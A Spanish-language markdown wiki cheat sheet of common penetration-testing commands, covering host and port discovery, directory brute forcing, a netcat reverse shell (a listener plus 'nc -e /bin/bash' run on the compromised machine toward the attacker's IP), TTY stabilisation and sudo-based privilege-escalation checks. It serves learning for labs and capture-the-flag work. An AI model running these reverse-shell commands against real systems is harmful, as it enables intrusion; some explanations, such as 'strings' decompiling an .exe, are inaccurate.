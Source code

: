 ```yaml
---
title: CheatSheet
description: Cheatsheet de todos los comandos usados en Hacking
published: true
date: 2024-11-11T16:09:52.824Z
tags: 
editor: markdown
dateCreated: 2024-11-11T14:26:03.405Z
---
```


# Comandos
Esta sección está dedicada a comandos usados de forma común en hacking.
## Detección
Para la detección de IPs, podremos hacer uso de varios comandos como:
```bash
sudo netdiscover -r (Rango de IP)
```
La detección de puertos, podemos hacer uso de NMap o Nessus. Con NMap seria el siguiente comando:
```bash
sudo nmap -sC -sV (IP)
```
Para la detección de subdirectorios podemos hacer uso de:
```bash
sudo dirb (Enlace)
```
## Shell reversa
Una shell reversa, consiste en una shell ya segurizada que usaremos para poder escribir comandos, primero deberemos poner en nuestra máquina:
```bash
nc -lnvp (Puerto)
```

Tras esto en la máquina vulnerada, deberemos intentar poner el siguiente comando para poder obtener una shell reversa.
```bash
sudo nohup nc -e /bin/bash (Nuestra IP) &
```


### Securizar la shell
Para poder securizarla, deberemos escribir en la shell reversa lo siguiente:
```bash
python -c "import pty;pty.spawn('/bin/bash')"
```

Tras esto haremos un Crtl + Z, para poner los siguientes comandos:
```bash
stty raw -echo;fg
```
Tras esto, deberemos hacer Enter 2 veces y por último poner el siguiente comando
```bash
export TERM=xterm
```
## Escalada de privilegios
Cuando intentemos hacer una escalada de privilegios, deberemos tener en cuenta que comandos permisos tiene nuestro usuario para poder realizarlo. Para ello ponemos:

```bash
sudo -l
```
Los datos obtenidos deberemos compararlos en: [GtFobins](https://gtfobins.github.io)

## Ingeniería inversa
Cuando tengamos un archivo .exe, deberemos intentar poder descompilarlo. Para ello podemos usar el siguiente comando.
```bash
sudo strings (Fichero)
```